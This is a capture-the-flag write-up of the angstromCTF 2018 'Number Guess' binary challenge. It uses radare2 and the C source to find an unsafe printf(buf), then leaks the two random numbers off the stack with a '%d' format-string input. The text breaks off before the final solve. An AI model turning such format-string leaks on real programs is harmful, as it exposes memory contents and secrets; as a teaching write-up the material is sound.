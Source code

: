 # ANGSTORM CTF 2018: Number Guess

**Category:** Binary
**Points:** 70
**Description:**

> Ian loves playing number guessing games, so he went ahead and wrote one himself (source). I hope it doesn't have any vulns. The service is running at nc shell.angstromctf.com 1235.

## Write Up

by Ovais Ellahi

The challenge is provided by https://angstromctf.com/problems

We are given two files, an elf 64-bit executable:

```bash
$ file guessPublic64
guessPublic64: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=0b444932c543f786c9e9b95ef43415fa0564c0a6, not stripped
```

and a c source file guessPublic.c.

When running the executable, we are asked to input a name, and then guess a random number within a range.

```bash
$ ./guessPublic64 
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
Ovais Ellahi
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
Ovais Ellahi's guess: 2314145 
Sorry, the answer was 1070812. Try again :(
```
To find an entry to exploit this problem, using `radare2` I list out all of the functions available in this executable:

```bash
$ r2 guessPublic64
 -- Use '-e bin.strings=false' to disable automatic string search when loading the binary.
[0x00400770]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00400770]> afl
0x00400680    3 26           sym._init
0x004006b0    1 6            sym.imp.puts
0x004006c0    1 6            sym.imp.strlen
0x004006d0    1 6            sym.imp.__stack_chk_fail
0x004006e0    1 6            sym.imp.printf
0x004006f0    1 6            sym.imp.__libc_start_main
0x00400700    1 6            sym.imp.srand
0x00400710    1 6            sym.imp.fgets
0x00400720    1 6            sym.imp.time
0x00400730    1 6            sym.imp.fflush
0x00400740    1 6            sym.imp.__isoc99_sscanf
0x00400750    1 6            sym.imp.rand
0x00400760    1 6            fcn.00400760
0x00400770    1 41           entry0
0x004007a0    4 50   -> 41   sym.deregister_tm_clones
0x004007e0    3 53           sym.register_tm_clones
0x00400820    3 28           sym.__do_global_dtors_aux
0x00400840    4 38   -> 35   entry1.init
0x00400866    6 485          main
0x00400a50    4 101          sym.__libc_csu_init
0x00400ac0    1 2            sym.__libc_csu_fini
0x00400ac4    1 9            sym._fini
```

It seems that the printf function is used to print out the name we input in the program.
That is our entry point, since now instead we can use format strings to directly print out values from the stack. 

But first, I had to look through the c source file to see how the random number is generated.

```bash
	srand(time(NULL));
	int rand1 = rand() % 1000000;
	int rand2 = rand() % 1000000;

	printf(buf);
	fflush(stdout);
	int guess;
	char num[8];
	fgets(num,8,stdin);
	sscanf(num,"%d",&guess);

	if (guess == rand1+rand2){
		printf("Congrats, here's a flag: %s\n", flag);
	} else {
		printf("Sorry, the answer was %d. Try again :(\n", rand1+rand2); 
	}

```

Looking at this code, we see that the number we have to guess is found by generating two random numbers between 1 and 1000000, and then adding them up. 

Since these two random numbers are stored as local variables on to the stack, we can exploit printf and use format strings to print out the stack and find those variables. 

To do this, I first try  "%d" * 10 as the input for the name to see the results:

```bash
$ ./guessPublic64
Welcome to the number guessing game!
Before we begin, please enter your name (40 chars max): 
%d %d %d %d %d %d %d %d %d %d
I'm thinking of two random numbers (0 to 1000000), can you tell me their sum?
-921623700 1400 121043 -378421084 -378420960 -921623384 0 4196944 213548 -921623392's
guess: Sorry, the answer was 334591. Try again :(
```
Looking through the 10 decimal numbers, we can disregard the negative numbers, and numbers greater than the answer, which leaves us with `1400 121043 213548`.

By adding 121043 and 213548 gives us 334591, which was the answer. So it is positions 3 and 9 in the output, where the two local variables holding a random number lie.

Now we can simply input the same string and add the third and ninth decimals as our answer to get the string:

